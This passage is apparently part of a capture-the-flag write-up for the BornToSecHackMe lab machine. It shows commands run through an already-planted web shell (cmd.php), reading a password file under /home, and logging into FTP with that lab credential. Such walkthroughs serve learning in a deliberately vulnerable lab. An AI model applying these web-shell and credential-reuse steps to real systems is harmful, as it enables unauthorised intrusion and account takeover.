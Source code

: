 ## Use the web-shell

After injecting our webshell, we can get to https://192.168.56.103/forum/templates_c/cmd.php

To check if the shell is right:

```bash
$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
```

By looking in home folder, we can see a LOOKATME folder in /home directory.

```bash
$ ls -l /home
total 0
drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
drwxr-x--- 1 laurie@borntosec.net laurie@borntosec.net  60 Oct 15  2015 laurie@borntosec.net
dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz
```

```bash
$ cat /home/LOOKATME/password
lmezard:G!@M6f4Eatau{sF"
```

## Exploiting the FTP

We gave a password file containing the potential session credential for lmezard user. When we try to login to the lmezard session it doesn't work but as we previously see we have a FTP service running in the target machine.
We can try these credential to check if the session works.

```bash
➜  ~ ftp
ftp> open
(to) 192.168.56.103
Connected to 192.168.56.103.
220 Welcome on this server
Name (192.168.56.103:nabentay): lmezard
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun
226 Directory send OK.
```
